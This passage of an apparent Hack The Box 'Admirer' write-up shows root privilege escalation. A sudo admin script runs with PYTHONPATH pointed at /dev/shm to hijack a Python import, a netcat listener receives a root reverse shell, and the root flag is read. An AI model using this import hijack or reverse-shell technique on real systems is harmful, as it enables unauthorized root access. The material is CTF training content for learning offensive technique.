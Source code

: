 waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

```
$ nc -nlvp 443   
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.187] 54676
root@admirer:/run/shm# whoami
whoami
root

cat /root/root.txt
92ea34cc16
```
<br>
### Additional information.
Before executing the script.
```
python3 -c "import sys; print('\n'.join(sys.path))"

/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3.5/dist-packages
```
<br> 
After.
```
root@admirer:/run/shm# python3 -c "import sys; print('\n'.join(sys.path))"
python3 -c "import sys ; print('\n'.join(sys.path))"

/dev/shm
/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3.5/dist-packages
```

